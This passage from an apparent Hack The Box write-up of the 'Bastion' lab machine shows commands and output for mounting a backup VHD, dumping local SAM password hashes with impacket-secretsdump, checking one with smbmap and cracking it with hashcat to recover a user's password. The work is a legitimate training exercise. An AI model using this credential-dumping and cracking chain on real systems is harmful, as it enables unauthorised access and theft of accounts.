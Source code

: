 We can mount the VHD with `guestmount`, but that isn't installed by default in Kali so we install it from the `libguestfs-tools` package.

```bash
luc@kali:~/HTB/Bastion$ guestmount --add smb/backups/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v vhd/
luc@kali:~/HTB/Bastion$ cd vhd/
luc@kali:~/HTB/Bastion/vhd$ ls
'$Recycle.Bin'   autoexec.bat   config.sys  'Documents and Settings'   pagefile.sys   PerfLogs   ProgramData  'Program Files'   Recovery  'System Volume Information'   Users   Windows
```

We now have access to all files in `9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd`.

```bash
luc@kali:~/HTB/Bastion/vhd$ cd Windows/System32/config/
luc@kali:~/HTB/Bastion/vhd/Windows/System32/config$ cp SAM SYSTEM ~/HTB/Bastion/
luc@kali:~/HTB/Bastion/vhd/Windows/System32/config$ cd ../../../../
luc@kali:~/HTB/Bastion$ impacket-secretsdump -sam SAM -system SYSTEM local
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up...
```

Both `Administrator` and `Guest` have the hash `aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0`. That hash won't give us access because it shows that it's disabled. L4mpje does have an interesting hash.

```bash
luc@kali:~/HTB/Bastion$ smbmap -u L4mpje -p aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9 -H 10.10.10.134
[+] IP: 10.10.10.134:445        Name: 10.10.10.134
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

We have no extra access, but we do know that the hash from the backup is still valid.

```bash
luc@kali:~/HTB/Bastion$ echo '26112010952d963c8dc4217daec986d9' > L4mpje.hash
luc@kali:~/HTB/Bastion$ hashcat -m 1000 L4mpje.hash /usr/share/wordlists/rockyou.txt
...
26112010952d963c8dc4217daec986d9:bureaulampje
```

It shows that the password for `L4mpje` is `bureaulampje` (extra info for non Dutch speakers, L4mpje/lampje is light and bureaulampje is a desk light).
